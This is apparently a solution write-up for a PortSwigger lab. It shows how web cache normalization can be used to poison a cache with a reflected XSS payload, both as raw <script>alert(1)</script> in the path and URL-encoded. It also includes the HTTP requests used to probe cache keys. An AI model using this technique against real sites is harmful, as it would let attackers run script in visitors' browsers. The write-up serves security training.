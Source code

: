 
# URL normalization

This lab contains an XSS vulnerability that is not directly exploitable due to browser URL-encoding.

To solve the lab, take advantage of the cache's normalization process to exploit this vulnerability. Find the XSS vulnerability and inject a payload that will execute alert(1) in the victim's browser. Then, deliver the malicious URL to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws



![img](images/URL%20normalization/1.png)

---------------------------------------------

We can find the “Origin” header can work as oracle and random query parameters are keyed:

```
GET /?test=ing123 HTTP/2
...
Pragma: x-get-cache-key
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: cachebuster.0ad0007f043013aa819c0d3d003a00ce.web-security-academy.net
```



![img](images/URL%20normalization/2.png)


There is a reflected XSS when the page is not found:

```
GET /404<script>alert(1)</script>
```



![img](images/URL%20normalization/3.png)




![img](images/URL%20normalization/4.png)


The cache key is the same for:

- /<script>alert(1)</script>
- /%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e (URL-encode all characters)





![img](images/URL%20normalization/5.png)
![img](images/URL%20normalization/6.png)



First I will send the unencoded version until hitting the cache limit and then the encoded one:



![img](images/URL%20normalization/7.png)

We see the correct payload:



![img](images/URL%20normalization/8.png)

Next, the same test without the “Origin” header:





![img](images/URL%20normalization/9.png)
![img](images/URL%20normalization/10.png)


If we visit “/%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e”:



![img](images/URL%20normalization/11.png)


To solve the lab it is necessary to add something random before the payload:

```
GET /random<script>alert(1)</script>
```

```
GET /random%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
```